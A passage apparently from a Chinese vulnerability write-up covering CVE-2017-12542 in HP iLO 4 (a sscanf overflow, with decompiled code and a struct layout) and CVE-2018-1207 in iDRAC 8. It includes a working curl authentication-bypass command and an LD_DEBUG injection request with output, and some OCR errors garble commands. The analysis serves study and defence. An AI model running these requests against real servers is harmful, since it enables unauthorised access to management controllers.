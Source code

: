 #### 案例一：CVE-2017-12542

Overflow - HP ILO 4 < 2.53

这是一个由sscanf导致的溢出，ilo获取用户http请求头中的Connection，并拷贝到http_header中。

```c
 if ( *global_struct_a2 )
  {
    if ( custom_strncasecmp((int)https_connection, http_header, "Authorization:", 14) )
    {
     if ( custom_strncasecmp((int)https_connection, http_header, "Content-length:", 15) )
     {
     if ( custom_strncasecmp((int)https_connection, http_header, "Cookie:", 7) )
    {
    if ( !custom_strncasecmp((int)https_connection, http_header, "Connection:", 11) )
     sscanf(http_header, "%*s %s", https_connection->connection);     // 1
   }
    else
  {
  cookie_header = (int *)get_cookie_header((int)global_struct_a2);
  parse_req_cookie((int)https_connection, (int)http_header, cookie_header);
  }
  }
```

http_header是一个结构体，定义了一些字段，在connection下0x1c偏移后就是检查是否本地登录的字段`localconnection`。

```c
struct https_connection {
 ...
 0x0C: char connection[0x10];
 ...
 0x28: char localConnection;
 ...
 0xB8: void *vtable;
}
```

exploit

覆盖localConnection：认证绕过

```sh
curl -H "Connection: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA" [TARGET]
```

覆盖虚表指针：任意代码执行

#### 案例二：CVE-2018-1207

Environment Variable Injection leads to RCE - iDRAC 8

该漏洞是iDRAC上对环境变量处理不当导致的RCE。

```bash
$ cur1 'https://x.x.x.x/cgi-bin/login?LD_DEBUG=files'
HTTP/1.1 503 Service Unavailable
Keep-Alive: timeout=60, max=199
[...]
24986: file=/usr/lib/libfipsint.so.0.0.0 [0] ;  needed by /usr/1ocal/cgi-bin/ login [O]
24986: file=/usr/lib/libfipsint.so.0.0.0 [0] ;  generating link map
24986: dynamic : 0x295689e8  base: 0x29558000  size: 0x00010b24
24986: entry: 0x29558680  phdr: 0x29558034   phnum : 4
```
